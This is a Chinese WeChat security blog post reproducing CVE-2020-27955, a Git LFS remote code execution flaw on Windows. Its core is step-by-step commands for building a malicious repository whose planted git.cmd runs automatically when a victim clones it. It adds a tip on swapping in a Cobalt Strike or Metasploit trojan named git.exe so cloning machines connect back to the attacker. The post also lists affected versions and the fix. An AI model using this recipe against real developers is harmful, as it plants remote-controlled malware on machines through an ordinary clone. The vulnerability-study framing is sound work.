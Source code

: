 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/By9U9OfBHkzWPjF2DFmflg)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

 |

**0x01 漏洞简介**

Git LFS 是 Github 开发的一个 Git 扩展，用于实现 Git 对大文件的支持。Windows 平台上的 Git-LFS 版本 <= 2.12 上发现远程代码执行问题，一旦受害者克隆了恶意存储库并在其系统上运行了易受攻击的 Git-LFS 版本，就会立即执行有效载荷，漏洞编号为 CVE-2020-27955。

**0x02 影响版本**

Git<=2.29.2、Git-LFS<=2.12，一些受影响的产品包括 Git，GitHub CLI，GitHub Desktop，Visual Studio，GitKraden，SmartGit，Sourcetree 等

**0x03 漏洞复现**

下载并安装≤2.12 版本 Git-LFS，可通过以下链接安装 Windows 版 Git v2.29.2，Git-LFS 版本就是 2.12。

*   https://github.com/git-for-windows/git/releases/tag/v2.29.2.windows.1
    

```
git --version
git-lfs --version
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcKRqT2tMkfYvg2c3d96NzMMkibSpuiakZcb5icWeibGNBgevmW1zHSe8zbkLhmeN2ZrNFkiaadDR1rHMw/640?wx_fmt=png)

我们先创建一个名为 POC 的恶意存储库，然后再依次执行以下命令即可，恶意文件名必须命名为 git.bat/git.cmd/git.vbs/git.exe。

**安装 Git-LFS：**

```
sudo apt-get install git-lfs
```

```
git clone https://github.com/3had0w/POC.git
echo calc.exe > git.cmd
git lfs track "*.dat"
echo "Junk" > large.dat
git add -A
git commit -m "POC"
git push -u origin master -f
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcKRqT2tMkfYvg2c3d96NzMicokoIQYgjPw42ZLCDyUEDoBsuxsvgRMrCyVTNVORia1RIyg24FAPjbQ/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcKRqT2tMkfYvg2c3d96NzMR0zvicg2nyb4aW1glNaxyBfORhpKhhZmmgODiacOP9PiaQMuIuTkhQrxg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcKRqT2tMkfYvg2c3d96NzM5PLCVykZ8pGFvdZSCDE1ZKm0TxaHBGRgoVr33xPurWYWgA61MdGVNg/640?wx_fmt=png)

其他更多 Windows 可执行文件可在环境变量 PATHEXT 中查看。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcKRqT2tMkfYvg2c3d96NzMmhCMsXVZaVUJN75UcydpaRMswiaFPnKiaiaSeO88Nia23lpWP1HHT13YQA/640?wx_fmt=png)

完成以上操作后我们的恶意存储库就创建好了，当有人使用 git clone 克隆该项目时，git.cmd 恶意文件就会被下载到本地，并由 Git-LFS 扩展自动执行，无需交互，执行流程如下图。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcKRqT2tMkfYvg2c3d96NzMtob0dCzric6wQC75IEzj7MKiaut4bMbMGaNzCc9rdPL6SxdmKGTaBoiaA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcKRqT2tMkfYvg2c3d96NzMoqTib1pic68T6dP5PyrurTKIzt02StlxTAUoAXkHicwh4Dib9YJXfI0wog/640?wx_fmt=png)

如果需要上线至 CS/MSF 时可以将恶意存储库中的 git.cmd 恶意文件替换为 CS/MSF 的二进制木马文件即可，不过还是得命名为 git.exe，接着我们重新执行一下 git clone 就能够正常上线了。  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOcKRqT2tMkfYvg2c3d96NzMuTdERNGhpz1QebBdtrqsZyBHL3Z0TmrrdjcFzsKTOjaTEf9FuOEp6Q/640?wx_fmt=png)

**0x04 漏洞修复**

更新并保持 Git 版本高于 2.29.2 和 Git-LFS 扩展高于 2.12  

**0x05 参考链接**

https://github.com/ExploitBox/git-lfs-RCE-exploit-CVE-2020-27955  

https://exploitbox.io/vuln/Git-Git-LFS-RCE-Exploit-CVE-2020-27955.html

https://infosecwriteups.com/git-lfs-exploit-for-remote-code-execution-cve-2020-27955-e8f4786163c3

关注公众号回复 “9527” 可免费获取一套 HTB 靶场文档和视频，“1120” 安全参考等安全杂志 PDF 电子版，“1208” 个人常用高效爆破字典，“0221”2020 年酒仙桥文章打包，还在等什么？赶紧点击下方名片关注学习吧！

公众号

* * *

**推 荐 阅 读**

  

  

  

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcAcRDPBsTMEQ0pGhzmYrBp7pvhtHnb0sJiaBzhHIILwpLtxYnPjqKmibA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247487086&idx=1&sn=37fa19dd8ddad930c0d60c84e63f7892&chksm=cfa6aa7df8d1236bb49410e03a1678d69d43014893a597a6690a9a97af6eb06c93e860aa6836&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcIJDWu9lMmvjKulJ1TxiavKVzyum8jfLVjSYI21rq57uueQafg0LSTCA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf8eyzKWPF5pVok5vsp74xolhlyLt6UPab7jQddW6ywSs7ibSeMAiae8TXWjHyej0rmzO5iaZCYicSgxg/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

**欢 迎 私 下 骚 扰**

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XOPdGZ2MYOdSMdwH23ehXbQrbUlOvt6Y0G8fqI9wh7f3J29AHLwmxjIicpxcjiaF2icmzsFu0QYcteUg93sgeWGpA/640?wx_fmt=jpeg)